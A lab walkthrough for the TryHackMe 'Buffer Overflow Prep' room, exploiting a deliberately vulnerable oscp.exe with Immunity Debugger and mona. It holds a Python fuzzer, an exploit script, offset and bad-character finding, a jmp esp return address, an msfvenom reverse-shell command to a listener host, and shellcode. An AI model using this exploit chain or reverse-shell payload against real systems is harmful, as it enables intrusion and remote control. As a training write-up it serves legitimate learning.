


Buffer Overflow Using ID & mona
THM Room: Buffer Overflow Prep
oscp.exe OVERFLOW 1 (Task-2)
Buffer overflow using Immunity Debugger and Mona
What is mona.py?
Mona.py is a python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform). It runs on Immunity Debugger and WinDBG, and requires python 2.7. Although it runs in WinDBG x64, the majority of its features were written specifically for 32bit processes.
https://github.com/corelan/mona
Download mona.py and paste into C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
Note: The immunity debugger has a command line at the bottom of the screen. Run the following command there to configure the mona script.
!mona config -set workingfolder c:\mona\%p
The above command will configute mona and create a working directory in C:\mona
Next, run the vulnerable program. oscp.exe in the Immunity Debugger opened as Administrator
Once the program is loaded(It loads in paused state). Hit the red play button or Debug --→ Run(F9) to run the program.
Once it runs we will get the following cmd window. (Waiting for client Connection)

We can connect to the vulnerable server using netcat to run as a normal user first.
nc 11.11.11.123 1337

We run the HELP command.
Then we will use the first mode for this exercise.
So we test it.
OVERFLOW1 userinput
Now thats working we can proceed with the exercise.
Fuzzing
Fuzzer.py
#!/usr/bin/env python3
import socket, time, sys
ip = "11.11.11.123"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100
while True:
try:
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.settimeout(timeout)
s.connect((ip, port))
s.recv(1024)
print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
s.send(bytes(string, "latin-1"))
s.recv(1024)
except:
print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
sys.exit(0)
string += 100 * "A"
time.sleep(1)
The Fuzzer app will send random bytes to the prgram incrementing by 100. eg 100,200,300..and so on till the program crashes.
This will help us to identify the range where the offset is present.
Note: The prefix makes sure our input is in the format “OVERFLOW1 AAAA.....”
As we did when we tested manually. (This will correspond to exercise 1)

The fuzzer will crash the program at 2000 bytes indicating that offset is between 1900-2000.
We can see the highlighted EIP or Extended Insteuction Pointer having all As ie. 41414141
Now we need to find the exact point of offset.
Crash Replication & Controlling EIP
Exploit.py
import socket
ip = "11.11.11.123"
port = 1337
prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
s.connect((ip, port))
print("Sending evil buffer...")
s.send(bytes(buffer + "\r\n", "latin-1"))
print("Done!")
except:
print("Could not connect.")
Once this above program is ready. Run the following command to generate a cyclic pattern of a length around 400 bytes longer that the string that crashed the server (change the -l value to this):
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
Copy the output and place it into the payload variable of the exploit.py script.
On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

Run the program again and run exploit.py in our kali machine.

This will crash the program again.
We will again check the EIP value and store it.

EIP Value: 6F43396E
Finding the exact offset value:
Method-1
Using metasploit tool as we used in gdb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2400 -q 6F43396E
Thus offset value is 1978
Method-2
Using mona commands
!mona findmsp -distance 2400
Run the above in Immunity debugger terminal after running the exploit. The program should remain in crashed state.
Look for a string: "EIP Contains normal pattern.."

Thus offset value is 1978
Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".
Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

Finding Badchars
Now we need to find the BADCHARS- For which we create BADCHARS, on set inside the machine using MONA and another by just googling or using a python script.By default \x00 is considered as a BADCHAR so it is to be neglected for sure. This helps us to identify the characters which are really BAD for our program!
Generate a bytearray using mona, and exclude the null byte (\x00) by default.
Use this mona commands.
!mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:
Badchar.py
for x in range(1, 256):
print("\\x" + "{:02x}".format(x), end='')
print()

Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

Restart oscp.exe in Immunity and run the modified exploit.py script again.
Right click on ESP Value and Follow in dump
In the above image the sequence has been changed after 06,2D that means there are some badchar in over payload lets find out badchars
Make a note of the address to which the ESP register points and use it in the following mona command:
!mona compare -f C:\mona\oscp\bytearray.bin -a 00C9FA18

Possible bad chars
So we found a list of possible bad chars 07 08 2e 2f a0 a1
Not all of these might be bad chars! Sometimes bad chars cause the next byte to get corrupted as well, or even affect the rest of the string.
At this point I start removing the bad characters one at a time. I removed one bad character at a time by repeating the following steps:
• Remove character from byte array
• Remove character from exploit payload
• Start exe
• Compare using mona
Example:
Start with !mona bytearray -b "\x00\x07" and remove \x07 from our payload. Then restart the program, run the exploit and do the comparsion again with the new ESP register.
!mona compare -f C:\mona\oscp\bytearray.bin -a 00FAFA18
After removing x00 and x07
Now possible bad chars show: 2e 2f a0 a1
We continue the process.
Start with !mona bytearray -b "\x00\x07\x2e" and remove \x2e from our payload. Then restart the program, run the exploit and do the comparsion again with the new ESP register.
!mona compare -f C:\mona\oscp\bytearray.bin -a 00FBFA18
After removing x00, x07 and x2e
Now possible bad chars show: a0 a1
We continue the process.
Start with !mona bytearray -b "\x00\x07\x2e\xa0" and remove \xa0 from our payload. Then restart the program, run the exploit and do the comparsion again with the new ESP register.
!mona compare -f C:\mona\oscp\bytearray.bin -a 00FBFA18

Once we get the status of Unmodified we confirm that all badchars were removed.
We see the “Hooray normal shellcode unmodified” to confirm this.
The badchars which we found were: x00, x07, x2e and xa0
Finding a Jump Point
With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).
Choose any one address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.
We can choose any 1 for our return address.
Lets take the first one: 0x625011AF
In Little endian it would be: \xaf\x11\x50\x62
Fill the above in retn value of exploit.py
Generate Payload
Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
msfvenom -p windows/shell_reverse_tcp LHOST=11.11.11.100 LPORT=7777 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
I.E. Create a parenthesis () after payload = and copy everything inside it, excluding the ;
Note: I will show the final exploit before exploiting.
Prepend NOPs
Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
padding = "\x90" * 16
Final Exploit Option Snap:
Exploit!
With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.
Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command
Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

Thus, we successfully exploited the buffer overflow.